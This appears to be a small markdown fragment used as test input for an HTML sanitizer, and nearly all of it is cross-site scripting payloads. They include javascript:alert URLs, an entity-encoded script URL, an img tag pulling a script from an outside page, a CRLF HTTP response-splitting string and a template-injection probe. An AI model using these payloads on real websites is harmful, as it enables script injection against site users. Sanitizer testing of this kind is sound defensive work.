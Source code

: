![

<img src="../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js">

<img src="../../../../\javascript:alert(2);" onload!#$%%&()*~+-_.,:;?@[/|\]^`=javascript:alert(1)>XXX</a>

<img id="meu" src="" tabindex=&#60;&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#41;></div>
<div {data} id="%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E">bbbb</div>
<span value="`${1+1}`">aaa</span>

](()
